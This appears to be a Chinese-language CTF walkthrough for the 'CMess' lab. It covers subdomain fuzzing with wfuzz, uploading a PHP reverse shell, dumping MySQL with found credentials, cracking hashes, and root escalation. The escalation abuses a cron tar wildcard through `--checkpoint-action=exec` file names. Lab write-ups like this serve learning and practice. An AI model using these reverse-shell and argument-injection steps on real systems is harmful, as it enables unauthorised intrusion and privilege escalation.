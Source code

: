 # Recon

- nmap 

![image](https://hackmd.io/_uploads/SJoAWsJE6.png)

- gobuster

![image](https://hackmd.io/_uploads/ryeDIfo1ET.png)

發現有/admin，打開是登入點，試一下找不到SQLi，嘗試子網域模糊測試

- wfuzz
    - `wfuzz -c -w ~/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host: FUZZ.cmess.thm"`
    - ![image](https://hackmd.io/_uploads/HJDZMsZNp.png)
    - 發現有大量290，這是主頁的數字，我們不需要，所以想辦法過濾掉
    - `wfuzz -c -w ~/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host: FUZZ.cmess.thm" --hw 290`
    - ![image](https://hackmd.io/_uploads/HJhTmi-4T.png)
    - ![image](https://hackmd.io/_uploads/BJXbHibV6.png)
    - 可以發現帳密了
        - user: andre@cmess.thm
        - passwd: KPFTN_f2yxe%

- ![image](https://hackmd.io/_uploads/SkcFrib4p.png)

# initial

- 開始瀏覽後台
    - 有上傳點
    - ![image](https://hackmd.io/_uploads/rkbQUsZ4p.png)
    - 丟php-reverse-shell後啟動nc直接等回連
    - ![image](https://hackmd.io/_uploads/ByAJ3o-Na.png)
    - 在/var/www/html 找到config.php
        - ![image](https://hackmd.io/_uploads/H13pRoWVT.png)
    - 確定有資料庫，研判應該是mysql，並且知道帳密
        - `mysqldump -u root -p r0otus3rpassw0rd --all-databases > all_databases.sql`
        - ![image](https://hackmd.io/_uploads/ByVV_Jz4a.png)
        - 用john去爆破他

    - ![image](https://hackmd.io/_uploads/Sy8vtJfEa.png)
    - 用ssh登入
    - 進去後取的user.txt flag

# PrivESC

- 直接上linpeas
    - 從本地端下載後，開啟http.server，在shell端用wget下載，記得chmod +x
    - 跑完發現crontab有點怪怪的
        - ![image](https://hackmd.io/_uploads/rJeITkzV6.png)
        - 看來它使用了* 導致可以使用tar進行shell，而且權限是root
        - ![image](https://hackmd.io/_uploads/SyGXLeGET.png)

- reverse shell
    - 首先，在/backup 底下創立一個shell.sh
    - 然後很白癡的，用bash建立反連，但這很爛!!! 不要用
        - ![image](https://hackmd.io/_uploads/rkAcIxf4a.png)
    - 直接用nc 做反連
        - ![image](https://hackmd.io/_uploads/Sy3pLxGN6.png)
        - 接下來設定chechpoint跟執行動作
            - `touch /home/andre/backup/--checkpoint=1`
            - `touch /home/andre/backup/--checkpoint-action=exec=sh\ shell2.sh`
        - 在攻擊端啟動nc監聽
            - ![image](https://hackmd.io/_uploads/Hyb6PxzN6.png)
  







